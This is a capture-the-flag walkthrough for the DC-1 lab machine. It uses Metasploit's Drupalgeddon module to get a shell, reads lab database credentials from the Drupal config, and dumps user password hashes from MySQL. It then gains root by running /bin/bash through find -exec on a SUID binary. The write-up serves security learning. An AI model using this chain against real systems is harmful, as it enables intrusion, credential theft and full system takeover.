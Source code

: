 # DC 1 Walkthrough

## Exploiting Drupalgeddon

```sh
msfconsole -q
search Drupalgeddon
use 0
set RHOSTS <target-ip>
exploit
#shell
python -c "import pty; pty.spawn('/bin/bash')"
```

## Retrieving the First Flag

```sh
cat flag1.txt
```

**Flag1**
> Every good CMS needs a config file—and so do you.

### Finding Database Credentials

```php
array (
 'database' => 'drupaldb',
 'username' => 'dbuser',
 'password' => 'R0ck3t',
 'host' => 'localhost',
 'port' => '3306',
 'driver' => 'mysql',
 'prefix' => '',
)
```

**Flag 2**
> Brute force and dictionary attacks aren't the only ways to gain access (and you WILL need access).
> What can you do with these credentials?

---

## Accessing MySQL

```sh
mysql -u dbuser -pR0ck3t -h localhost
```

### Extracting Hashes

```sh
SELECT name, pass FROM users;
```

```
admin | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR
Fred  | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg
```

---

## Navigating to Home Directory

```sh
cd /home
```

```sh
cat flag4
```

**flag4**
> Can you use this same method to find or access the flag in root?
> Probably. But perhaps it's not that easy. Or maybe it is?

---

```sh
find / -perm -u=s 2>/dev/null
find /dev -name null -exec /bin/bash \;
## Accessing the Root Directory
cd /root
cat thefinalflag.txt
```
---

## Final Flag

**Congratulations!**

> Well done!
> Hopefully you've enjoyed this and learned some new skills.
> You can let me know what you thought of this little journey by contacting me via Twitter - @DCAU7

